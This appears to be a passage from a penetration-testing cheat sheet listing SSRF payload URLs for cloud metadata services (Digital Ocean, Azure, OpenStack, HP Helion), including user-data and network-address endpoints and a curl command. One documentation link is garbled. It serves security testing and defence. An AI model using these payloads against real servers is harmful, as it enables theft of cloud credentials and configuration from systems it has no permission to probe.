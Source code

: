 ## SSRF URL for Digital Ocean

Documentation available at `https://developers..com/documentation/metadata/`

```powershell
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
```

## SSRF URL for Packetcloud

Documentation available at `https://metadata.packet.net/userdata`

## SSRF URL for Azure

Limited, maybe more exists? `https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`

```powershell
http://169.254.169.254/metadata/v1/maintenance
```

Update Apr 2017, Azure has more support; requires the header "Metadata: true" `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```powershell
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

## SSRF URL for OpenStack/RackSpace

(header required? unknown)

```powershell
http://169.254.169.254/openstack
```

## SSRF URL for HP Helion

(header required? unknown)

```powershell
http://169.254.169.254/2009-04-04/meta-data/ 
```
